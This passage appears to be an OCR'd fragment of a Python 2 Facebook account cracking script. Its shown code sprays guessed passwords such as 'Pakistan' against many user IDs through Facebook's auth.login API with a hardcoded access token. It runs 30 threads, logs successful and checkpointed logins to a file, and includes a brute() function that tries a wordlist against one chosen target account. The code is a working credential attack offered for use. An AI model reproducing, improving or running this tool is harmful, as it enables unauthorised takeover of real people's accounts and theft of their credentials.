 															cekpoint.append(user+pass6)
														else:
															pass7 = 'Pakistan'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;36;40m|\x1b[1;92m ' + pass7 + ' 👽 ' + b['name']
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass7 + ' 👽 ' + b['name']
																	cek = open("out/CP.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
		except:																		
			pass
		
	p = ThreadPool(30)
	p.map(main, id) 
	
	print '\033[1;31;40m[✓] Process Has Been Completed\033[1;96m....'
	print "\033[1;32;40m[+] Total OK/\x1b[1;93mCP \033[1;91m: \033[1;91m"+str(len(oks))+"\033[1;31;40m/\033[1;36;40m"+str(len(cekpoint))
	print '\033[1;34;40m[+] CP File Has Been Saved : save/cp.txt'
	print """
\033[1;31;40m ●════════════════════════◄►════════════════════════●
           """
	raw_input("\n\033[1;96m[\033[1;97mExit\033[1;96m]")
	super()

def brute():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(0.5)
        login()
    else:
        os.system('clear')
        print logo
        print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'
        try:
            email = raw_input('\x1b[1;91m[+] \x1b[1;92mID\x1b[1;97m/\x1b[1;92mEmail \x1b[1;97mTarget \x1b[1;91m:\x1b[1;97m ')
            passw = raw_input('\x1b[1;91m[+] \x1b[1;92mWordlist \x1b[1;97mext(list.txt) \x1b[1;91m: \x1b[1;97m')
            total = open(passw, 'r')
            total = total.readlines()
            print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'
            print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mTarget \x1b[1;91m:\x1b[1;97m ' + email
            print '\x1b[1;91m[+] \x1b[1;92mTotal\x1b[1;96m ' + str(len(total)) + ' \x1b[1;92mPassword'
            jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')
            sandi = open(passw, 'r')
            for pw in sandi:
                try:
                    pw = pw.replace('\n', '')
                    sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mTry \x1b[1;97m' + pw)